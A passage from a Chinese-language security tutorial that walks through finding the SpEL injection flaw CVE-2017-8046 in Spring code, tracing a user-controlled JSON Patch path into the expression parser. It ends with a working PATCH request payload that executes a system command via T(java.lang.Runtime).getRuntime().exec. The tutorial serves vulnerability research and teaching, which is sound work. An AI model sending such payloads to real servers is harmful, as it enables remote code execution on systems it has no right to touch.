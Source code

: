 ##### 一步一步CVE-2017-8046
首先，需要找到处理SpEL表达式的位置。为此，你只需使用我们的建议并在代码中查找关键字即可。回想一下这些词：SpelExpressionParser，EvaluationContext和parseExpression。
另一个选择是使用各种插件来查找代码中SpEL注入漏洞。如[findsecbugs-cli](https://github.com/find-sec-bugs)

所以，假设我们使用findsecbugs-cli在代码中找到了一个感兴趣的地方：
![wg_ws5vbnh1z6vds1-gxjc3zhk0.png](https://habrastorage.org/webt/wg/_w/s5/wg_ws5vbnh1z6vds1-gxjc3zhk0.png)

在代码中，我们将看到以下内容：
```java
public class PathToSpEL {

   private static final SpelExpressionParser SPEL_EXPRESSION_PARSER = new SpelExpressionParser();
   static final List<String> APPEND_CHARACTERS = Arrays.asList("-");

   /**
    * Converts a patch path to an {@link Expression}.
    * 
    * @param path the patch path to convert.
    * @return an {@link Expression}
    */
   public static Expression pathToExpression(String path) {
      return SPEL_EXPRESSION_PARSER.parseExpression(pathToSpEL(path));
   }
```
下一步是找出变量path是从什么地方进入表达式解析器的。一种相当方便和免费的方法是使用IDE的IntelijIdea - Analyze Dataflow：
![gdudag-ykwbmvin_70mowuh838u.png](https://habrastorage.org/webt/gd/ud/ag/gdudag-ykwbmvin_70mowuh838u.png)

回溯变量，我们得到以下结果，ReplaceOperation方法获取了path变量的值。
```java
public ReplaceOperation(String path, Object value) {
   super("replace", path, value);
}
```

要触发调用replace方法，需要将值为"replace"的变量op传递给JSON。
```java
JsonNode opNode = elements.next();

String opType = opNode.get("op").textValue();

else if (opType.equals("replace")) {
   ops.add(new ReplaceOperation(path, value));
```

这样我们就找到用户可控的变量。然后，一个可能的漏洞利用方式将如下所示：
请求method：PATCH 
请求body：
```
[{ "op" : "add", "path" : "T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").x", "value" : "pwned" }]
```
##### 使用LGTM QL
使用[LGTM QL](https://lgtm.com)（在本文中，简称为QL） - 这是另一种发现漏洞的有趣方式。

